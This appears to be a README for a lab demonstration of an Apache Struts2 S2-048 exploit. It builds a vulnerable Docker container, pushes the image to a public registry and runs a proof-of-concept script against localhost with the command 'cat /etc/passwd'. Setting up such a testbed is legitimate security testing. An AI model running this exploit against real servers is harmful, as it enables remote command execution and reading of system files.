 # struts_poc

git clone https://github.com/hook-s3c/apache-struts2-PoC

cd apache-struts2-PoC/

docker build -t struts .

docker run -it --rm -d -p 8080:8080 struts:latest

docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest

#public login to us-west-2 not supported by aws

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws

docker push public.ecr.aws/v9f6i2g3/stuff:latest

curl 127.0.0.1:8080/showcase.action -v

#python3 -m venv .

python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)

